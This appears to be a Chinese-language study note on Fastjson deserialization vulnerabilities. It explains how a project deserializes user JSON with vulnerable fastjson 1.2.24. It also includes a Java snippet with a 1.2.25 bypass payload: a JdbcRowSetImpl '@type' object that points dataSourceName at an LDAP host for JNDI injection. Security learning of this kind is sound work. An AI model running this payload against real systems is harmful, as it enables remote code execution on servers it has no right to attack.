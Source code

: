 > ### 📌 总结
>
> 简单来说，在BurpSuite中使用嵌套结构的Payload，主要是为了“投其所好”，让恶意载荷能顺利被目标应用处理并送到Fastjson解析器面前。直接Payload则适用于更“原始”的解析场景。
>
> 希望这些信息能帮助你更好地理解Fastjson漏洞测试。如果你还有其他问题，欢迎随时提出。

查看项目源码

![image-20250922044616444](./images/Fastjson漏洞2/image-20250922044616444.png)

在 setUser 方法中，应用直接接收用户传入的 JSON 数据并进行反序列化为 User 对象，如果 FastJSON 版本存在漏洞，攻击者可以构造恶意的 JSON 数据来利用这个反序列化过程。

而查看pom.xml文件，发现使用fastjson1.2.24存在漏洞，所以被利用

## Fastjson1.2.25

***参考文章：https://mp.weixin.qq.com/s/WU2cC5AXAQA_XF7dKxiEWQ***

```java
package com.example.fastjson.Fastjson1_2_24;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Fastjson24 {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        // 修正后的payload格式
        String payload = "{    \"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",  " +
                "  \"dataSourceName\":\"ldap://192.168.32.128:50389/c51b9b\",    " +
                "\"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```
